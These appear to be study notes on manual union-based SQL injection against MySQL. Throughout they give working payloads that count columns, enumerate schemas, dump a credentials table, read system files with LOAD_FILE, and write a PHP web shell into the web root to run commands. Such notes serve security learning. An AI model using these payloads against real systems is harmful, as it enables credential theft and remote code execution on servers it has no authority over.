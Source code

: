 ## Detect number of columns
We need to find the number of columns selected by the server. There are two methods of detecting the number of columns:

- Using `ORDER BY`
- Using `UNION`
### Order By
```sql
' order by 1-- -
```
```sql
' order by 2-- -
```
- we increment repeatedly until we get an error
### Select
```sql
cn' UNION select 1,2,3-- -
```
```sql
cn' UNION select 1,2,3,4-- -
```
- Keep incrementing until we get a valid result
	- we can view which columns are being displayed from the number of the columns'

Now we can see the version:
```sql
cn' UNION select 1,@@version,3,4-- -
```
## Database Enumeration
The following queries and their output will tell us that we are dealing with `MySQL`:

| Payload            | When to Use                      | Expected Output                                     | Wrong Output                                              |
| ------------------ | -------------------------------- | --------------------------------------------------- | --------------------------------------------------------- |
| `SELECT @@version` | When we have full query output   | MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'     | In MSSQL it returns MSSQL version. Error with other DBMS. |
| `SELECT POW(1,1)`  | When we only have numeric output | `1`                                                 | Error with other DBMS                                     |
| `SELECT SLEEP(5)`  | Blind/No Output                  | Delays page response for 5 seconds and returns `0`. | Will not delay response with other DBMS                   |
### INFORMATION_SCHEMA Database
To pull data from tables using `UNION SELECT`, we need to properly form our `SELECT` queries.

The [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server.

To reference a table present in another DB, we can use the dot ‘`.`’ operator. For example, to `SELECT` a table `users` present in a database named `my_database`, we can use:
```sql
SELECT * FROM my_database.users;
```
### SCHEMATA
The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server.

The `SCHEMA_NAME` column contains all the database names currently present.
```sql
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
- shows databases

We can find the current database with the `SELECT database()` query.
```sql
cn' UNION select 1,database(),2,3-- -
```
### TABLES
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
- shows all tables on the current database

### COLUMNS
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
- Dumps the data (column_name, table_name, table_schema) of the credentials table
### Data
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```
- dumps data of the `username` and `password` columns from the `credentials` table in the `dev` database.
## Reading Files
### User Privileges
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
- tests to see if we have super_priv
### LOAD_FILE
```sql
SELECT LOAD_FILE('/etc/passwd');
```
- Reads the contents of the passwd file
## Writing Files
To be able to write files to the back-end server using a MySQL database, we require three things:
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
### secure_file_priv
Used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable.
- `NULL` means we cannot read/write from any directory

> Note: `MySQL` uses `/var/lib/mysql-files` as the default folder. This means that reading files through a `MySQL` injection isn't possible with default settings.

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
### SELECT INTO OUTFILE
used to write data from select queries into files.

add `INTO OUTFILE '...'` after our query to export the results into the file we specified.

```sql
cn' UNION SELECT * from users INTO OUTFILE '/tmp/credentials'-- -
```
- saves the output of the `users` table into the `/tmp/credentials` file.
- If we go to the back-end server and `cat` the file, we see that table's content

It is also possible to directly `SELECT` strings into files
### Writing a Web Shell
**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`

We can write the following PHP webshell to be able to execute commands directly on the back-end server:
```php
<?php system($_REQUEST[0]); ?>
```

Injection may look like this:
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
- This can be verified by browsing to the `/shell.php` file and executing commands by adding `?0=id` to the url